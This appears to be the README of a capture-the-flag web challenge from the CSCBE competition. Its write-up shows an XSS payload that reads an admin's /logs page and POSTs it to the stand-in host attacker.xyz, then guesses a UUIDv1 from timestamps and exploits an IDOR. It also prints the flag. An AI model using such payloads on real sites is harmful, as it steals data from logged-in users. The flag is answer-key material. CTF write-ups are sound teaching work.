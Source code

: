 # CHALLENGE_TITLE

## Category
Web

## Estimated difficulty
Hard

## Description
Players must steal the superadmin's note by guessing its UUIDv1. They can do so by tricking the admin into leaking the logs through a XSS.

## Scenario
I know, I know, yet another notepad challenge. But trust me you'll like this one... or maybe not.

## Write-up
1. Create a new note that contains a script tag that points to a self-hosted JS file that looks something like:

    ```js
    const Http = new XMLHttpRequest();

    Http.onload = (e) => {
      const secondHttp = new XMLHttpRequest();
      secondHttp.open("POST", "http://attacker.xyz/");
      secondHttp.send(Http.responseText);                                                                        
    }
    Http.open("GET", "/logs");
    Http.send();


    ```

2. Share the note with admin user, which will trigger the bot that will trigger the XSS. In this example, the bot will retrieve the content of the logs page and pass it to the attacker in Base64.

3. The players will now have access to the logs, and see that the superadmin user created a note, along with the exact time at which it was created. Thanks to this information, the player can guess the UUIDv1 of this note.

4. Once the players have guessed the UUIDv1, they can access the note via an IDOR in the `/notes/view` endpoint and retrieve the flag.

## Solve script
TODO

## Flag
CSC{y3ah_D0N't_us3_uuid_v1}

## Creator
Julien Pepinster

## Creator bio
Penetration tester at NTT, I always loved breaking stuff and now I get to do it for a living. The CSCBE was one of the reason I started playing CTFs, focused my attention to offensive security and found my passion. I am now returning the favor with some challenges, hoping you all have fun, and some headaches too.

- https://www.linkedin.com/in/julienpeps/
